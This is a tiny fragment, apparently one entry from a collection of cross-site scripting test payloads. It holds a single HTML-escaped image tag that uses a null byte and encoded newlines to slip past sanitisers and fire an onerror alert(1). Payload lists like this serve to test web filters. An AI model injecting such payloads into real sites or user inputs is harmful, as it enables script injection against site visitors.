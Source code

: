 # -img-src-00-NewLine-onerror-alert-1-NewLine-
&lt;img src=`%00`&amp;NewLine; onerror=alert(1)&amp;NewLine;
